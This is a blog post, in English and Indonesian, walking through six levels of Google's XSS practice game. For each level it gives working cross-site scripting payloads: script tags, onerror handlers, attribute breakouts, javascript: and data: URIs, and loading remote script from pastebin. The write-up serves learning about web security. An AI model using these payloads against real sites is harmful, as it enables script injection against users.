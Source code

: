 ```yaml
---
layout: post
title: "Writeup XSS Appspot"
description: "Writeup XSS Appspot"
headline: 
modified: 2017-01-31
category: xss
tags: [xss,ctf,web]
imagefeature: /images/xss-appspot.PNG
mathjax: 
chart: 
comments: true
featured: false
---
```


## Level 1

### Problem

This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.
    
### Solution

parameter query langsung masuk sebagai html jadi kita bisa kirim payload `<script>alert(1)</script>`


## Level 2

### Problem

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

### Solution 

Payload `<img src="x" onerror="alert(1)">`


## Level 3

### Problem 

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

### Solution 

dari potongan javascript ini 

``` javascript

    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
    
```

yang menarik adalah bagian ini `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
terlihat input kita masuk ke tag img kemudian di tambain " .jpg' "
maka kita bisa kirim payload gambar yang tidak ada , dan kita tambahkan event onerror
payload `' onerror=alert(1) alt='`


## Level 4

### Problem

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

### Solution

disini fungsi start timer di panggil di dalam onload event dan input kita masuk ke parameter dari fungsi starttime
karena dalam event html kita bisa panggil multiple function jadi kita bisa tambahin function alert pake separator ;
`200');alert(1)` tapi itu belum work sebelum kita kirim pake url encode `200%27%29%3Balert%28%271`

## Level 5

### Problem 

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

### Solution

Input kita di parameter ?next= itu masuk ke dalam tag <a href="{next}">
simple kita bisa inject javascriptnya

`javascript:alert(1)`

atau juga bisa pake `data:text/html,<script>alert(1);</script>` yang di urlencode jadi
`data%3Atext%2Fhtml%2C%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## Level 6

### Problem

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

### Solution

Kita ngak bisa pake protocol http atau https untuk load file nya
karena dia ada cek

``` javascript

if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      
```

kita host `alert(1)` ke pastebin terus kita load tapi bukan pake http atau https atau protokol lain tapi
pake `//pastebin.com/raw/6aV0qLz3`

read more : [2 Forward slashes](http://stackoverflow.com/questions/9646407/two-forward-slashes-in-a-url-src-href-attribute/9646435#9646435)


![](/images/solve-xss.PNG)